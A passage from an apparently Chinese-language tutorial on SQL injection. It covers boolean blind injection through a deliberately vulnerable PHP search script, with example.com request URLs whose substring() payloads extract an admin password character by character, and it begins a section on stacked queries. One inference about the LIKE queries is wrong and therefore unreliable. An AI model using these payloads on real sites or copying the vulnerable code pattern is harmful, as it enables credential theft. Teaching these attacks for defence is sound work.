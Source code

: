 使用这种方法，攻击者可以通过构造一系列逻辑表达式来推断关于数据库的信息，例如：
```
SELECT * FROM users WHERE username = 'admin' AND password LIKE 'a%';
SELECT * FROM users WHERE username = 'admin' AND password LIKE 'aa%';
SELECT * FROM users WHERE username = 'admin' AND password LIKE 'ab%';
```
如果第一个语句返回结果，而第二个语句没有返回结果，则可以推断出密码的第二个字符是 "a"，否则就是 "b"。

通过这种方式，攻击者可以使用布尔盲注攻击来推断出数据库中的敏感信息，如用户名和密码。

假设一个网站有一个搜索功能，可以根据输入的关键词在数据库中搜索匹配的文章。搜索功能的代码如下：
```
<?php
$keyword = $_GET['keyword'];
$sql = "SELECT * FROM articles WHERE title LIKE '%$keyword%'";
$result = mysql_query($sql);
?>
```
上面的代码有一个明显的 SQL 注入漏洞，攻击者可以在 keyword 参数中注入恶意的 SQL 代码。使用布尔盲注攻击可以让攻击者逐步推断出数据库中的信息，如下所示：

首先，我们可以构造以下请求：
```
http://example.com/search.php?keyword=a' AND 1=1--
```
这将导致 SQL 语句变为以下形式：
```
SELECT * FROM articles WHERE title LIKE '%a' AND 1=1--%'
```
这个语句将返回所有标题中包含字符 "a" 的文章，同时忽略后面的注释。

接下来，我们可以构造以下请求：
```
http://example.com/search.php?keyword=a' AND substring((SELECT password FROM users WHERE username='admin'),1,1)='a'--
```
这将导致 SQL 语句变为以下形式：
```
SELECT * FROM articles WHERE title LIKE '%a' AND substring((SELECT password FROM users WHERE username='admin'),1,1)='a'--%'
```
如果这个语句返回结果，则说明管理员的密码以 "a" 开头，否则就不是。

使用类似的方式，攻击者可以逐步推断出管理员的密码。例如，使用以下请求可以检查密码的第二个字符：
```
http://example.com/search.php?keyword=a' AND substring((SELECT password FROM users WHERE username='admin'),2,1)='b'--
```
如果这个语句返回结果，则说明管理员的密码的第二个字符是 "b"，否则就不是。

通过这种方式，攻击者可以逐步推断出管理员的密码，并最终登录到网站上执行恶意操作。
# 堆叠查询注入
SQL注入的堆叠查询注入（Stacked Query Injection）是一种SQL注入技术，攻击者可以在一次数据库查询中执行多个查询语句，以达到执行任意SQL语句的目的。

堆叠查询注入通常是在执行多条SQL语句的Web应用程序中发现的，例如使用多个SQL查询更新或插入多个值的程序，或使用存储过程或触发器的程序。

攻击者通过在Web应用程序的输入字段中插入特殊字符和SQL代码来实现堆叠查询注入攻击。攻击者通常使用分号“;”或双破折号“--”来分隔多个查询语句
